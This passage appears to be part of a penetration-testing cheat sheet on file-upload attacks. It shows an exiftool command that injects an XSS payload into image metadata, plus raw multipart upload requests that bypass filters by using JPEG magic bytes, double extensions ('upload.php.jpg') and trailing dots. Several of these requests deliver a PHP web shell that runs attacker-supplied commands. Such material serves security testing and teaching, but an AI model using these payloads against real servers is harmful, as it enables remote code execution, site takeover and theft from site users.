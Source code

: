 #### EXIF Data Not Being Stripped
EXIF (Exchangeable Image File Format) data is metadata embedded in a photo file that contains information about the camera, settings, and other details used to capture the image. This information can include the camera model, aperture, shutter speed, ISO, date and time, GPS location, lens type, and more. If the EXIF data is not being stripped, it may be a vulnerability in itself depending on the situation. You may also be able to get XSS through the metadata.
```
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' profile.jpg
```

# Bypasses

#### Keeping The Image Header 
`ÿØÿà` is the magic bytes for jpg file format.
```
-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="upload.jpg"
Content-Type: text/html

ÿØÿà
<script>alert(0)</script>
-----------------------------4829104394923874193918493216
```

#### Extention Parsing
The following `upload.php.jpg` could be interpreted as PHP or JPG depending on how the server parses the filename.
```
-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="upload.php.jpg"
Content-Type: text/php

<?php 
echo "shelled: ";
system($_GET['cmd']); 
?>
-----------------------------4829104394923874193918493216
```

#### Trailing Dots
```
-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="upload.php."
Content-Type: text/php

<?php 
echo "shelled: ";
system($_GET['cmd']); 
?>
-----------------------------4829104394923874193918493216
```
